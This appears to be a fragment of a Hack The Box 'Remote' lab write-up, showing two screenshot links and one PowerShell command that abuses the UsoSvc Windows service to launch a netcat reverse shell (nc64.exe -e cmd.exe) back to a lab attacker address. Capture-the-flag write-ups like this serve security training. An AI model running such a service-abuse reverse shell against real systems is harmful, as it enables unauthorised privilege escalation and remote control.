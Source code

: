 
![image 19](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(19).png)



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "C:\Windows\Temp\nc64.exe 10.10.14.2 1234 -e cmd.exe"</span>
</div>
<br>



![image 20](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(20).png)













